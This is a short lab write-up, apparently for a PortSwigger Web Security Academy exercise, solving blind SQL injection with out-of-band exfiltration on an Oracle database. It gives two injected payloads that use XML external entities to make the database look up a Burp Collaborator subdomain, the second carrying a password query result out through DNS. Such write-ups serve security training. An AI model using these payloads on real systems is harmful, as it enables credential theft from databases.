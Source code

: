 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/21722f28-2778-47af-9d68-c9e469d1268d)

## Solution:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/ed6ba645-57a8-48a1-a53d-b754e9d2b4f8)
The payloads for each domain to perform a DNS lookup to an external domain to retrieve details of any DNS interactions, including the exfiltrated data.

Query made -

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'`

Request captured -

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/39ded0fd-83a0-4c17-ae77-0fca71d79236)

Send this to Repeater

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/11482004-9bb3-4993-b0b9-ef41bbca36db)

Then query will be changed by pasting the external domain provided by collaborator would look like this

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/8a154d6e-90fa-40e8-b199-365a8147fc70)

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a811621a-14f1-4886-85d5-bf8b0d628718)

By this we conformed that the databse is Oracle.

Now we need retrieve the passward from table called users, with columns called username and password.
For that the payload is

`SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a8d0e4ec-06ad-4958-828e-8fe89e379999)

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7b8b673f-8c26-43c4-b321-b7acde1bff42)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0448c8ca-0131-4df6-b583-b405592f7b4b)


